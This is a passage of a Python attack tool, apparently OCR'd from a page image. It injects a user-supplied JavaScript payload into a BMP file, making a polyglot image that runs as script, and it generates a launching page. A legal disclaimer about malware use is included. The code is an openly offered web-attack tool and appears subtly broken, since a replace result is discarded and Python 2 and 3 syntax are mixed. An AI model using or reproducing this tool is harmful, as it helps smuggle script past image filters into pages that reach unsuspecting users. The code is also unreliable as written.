         f = open(fname, "r+b")

        b = f.read()

        b.replace(b'\x2A\x2F',b'\x00\x00')

        f.close()

        f = open(fname, "w+b")

        f.write(b)

        f.seek(2,0)

        f.write(b'\x2F\x2A')

        f.close()

        f = open(fname, "a+b")

        f.write(b'\xFF\x2A\x2F\x3D\x31\x3B')

        f.write(payload)

        f.close()

        return True

#---------------------------------------------------------

if __name__ == "__main__":

        parser = argparse.ArgumentParser()

        parser.add_argument("filename",help="the bmp file name to be generated/or infected")

        parser.add_argument("js_payload",help="the payload to be injected. For exmample: \"alert(\"test\");\"")

        parser.add_argument("-i", "--inject-to-existing-bmp", action="store_true", help="inject into the current bitmap")

        args = parser.parse_args()

        print("""

                                        |======================================================================================================|

                                        | [!] legal disclaimer: usage of this tool for injecting malware to be propagated is illegal.          |

                                        | It is the end user's responsibility to obey all applicable local, state and federal laws.            |

                                        | Authors assume no liability and are not responsible for any misuse or damage caused by this program  |

                                        |======================================================================================================|

                                        """)

        if args.inject_to_existing_bmp:

                 _inject_into_file(args.js_payload, args.filename)

        else:

                _generate_and_write_to_file(args.js_payload, args.filename)

        _generate_launching_page(args.filename)

        print "[+] Finished!"</pre>